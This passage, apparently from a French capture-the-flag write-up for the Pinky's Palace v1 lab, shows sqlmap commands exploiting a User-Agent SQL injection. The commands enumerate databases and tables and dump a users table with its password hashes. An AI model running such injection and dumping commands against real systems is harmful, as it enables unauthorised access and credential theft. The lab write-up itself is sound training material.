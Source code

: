 En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et qu'en fait, les deux paramètres _user_ et _pass_ ne sont pas injectables : c'est le User-Agent qui est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all).

```console
root@blinils:~/pinkyspalace-v1# sqlmap -u "http://127.0.0.1:8080/littlesecrets-main/login.php" --data="user=test&pass=test" --proxy=http://192.168.56.103:31337 --level=3 --risk=3 --dbs

--snip--             
[16:06:03] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[16:07:01] [INFO] retrieved: pinky_sec_db
available databases [2]:
[*] information_schema
[*] pinky_sec_db
```

C'est parti pour le dump des données présentes dans la base pinky_sec_db !

```console
root@blinils:~/pinkyspalace-v1# sqlmap -u "http://127.0.0.1:8080/littlesecrets-main/login.php" --data="user=test&pass=test" --proxy=http://192.168.56.103:31337 --level=3 --risk=3 --tables -D pinky_sec_db

--snip--         
[16:08:26] [INFO] adjusting time delay to 1 second due to good response times
logs
[16:08:40] [INFO] retrieved: users
Database: pinky_sec_db
[2 tables]
+-------+
| logs  |
| users |
+-------+

--snip--

root@blinils:~/pinkyspalace-v1# sqlmap -u "http://127.0.0.1:8080/littlesecrets-main/login.php" --data="user=test&pass=test" --proxy=http://192.168.56.103:31337 --level=3 --risk=3 --dump -D pinky_sec_db -T users

--snip--
[00:00:01] [INFO] fetching columns for table 'users' in database 'pinky_sec_db'
--snip--
[00:00:01] [INFO] retrieved: user
[00:00:01] [INFO] retrieved: pass
--snip--              
[00:00:01] [INFO] retrieved: pinky              
[00:00:01] [INFO] retrieved: f543dbfeaf238729831a321c7a68bee4              
[00:00:01] [INFO] retrieved: 1
[00:00:01] [INFO] retrieved: pinkymanage
[00:00:01] [INFO] retrieved: d60dffed7cc0d87e1f4a11aa06ca73af
[00:00:01] [INFO] retrieved: 2
[00:00:01] [INFO] recognized possible password hashes in column 'pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
--snip--                                                                                                                 
[00:00:01] [WARNING] no clear password(s) found                                                                                                     
Database: pinky_sec_db
Table: users
[2 entries]
```